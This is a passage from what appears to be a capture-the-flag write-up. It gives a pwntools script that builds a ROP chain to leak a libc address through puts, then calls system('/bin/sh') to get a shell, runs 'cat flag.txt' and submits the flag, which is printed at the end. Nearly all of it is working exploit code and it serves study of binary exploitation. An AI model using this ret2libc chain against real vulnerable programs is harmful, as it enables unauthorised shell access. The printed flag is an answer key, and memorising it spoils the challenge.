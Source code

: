 ```py
    leak_payload = flat({
        fault: [
            pop_rdi,
            puts_got,
            puts_plt,
            main,
            ]
        })

    io.sendline(leak_payload)

    io.recvuntil(('Got: \n', 'Hello, \n'))
    io.recvline()
    libc_leak = io.recvline()[:-1]

    libc.address = u64(libc_leak.ljust(8, b'\x00')) - (libc.symbols['puts'] - libc.address)
    bin_sh = next(libc.search(b'/bin/sh'))
    system = libc.symbols['system']
    io.success("libc address: {}".format(hex(libc.address)))
    io.success("/bin/sh address: {}".format(hex(bin_sh)))
    io.success("system address: {}".format(hex(system)))

    shell_payload = flat({
        fault: [
            ret,
            pop_rdi,
            bin_sh,
            system,
            ]
        })

    io.sendline(shell_payload)
    io.recvuntil(('Got: \n', 'Hello, \n'))
    io.recvline()

    io.sendline('cat flag.txt')
    flag = io.recvuntil('}')
    io.success("Flag: {}".format(flag))
    io.sendline('exit')
    io.recvuntil('flag>')
    io.sendline(flag)

    problem += 1

io.interactive()
```

## Flag

`flag{n0w_d0_th3_bunnyd4nc3}`

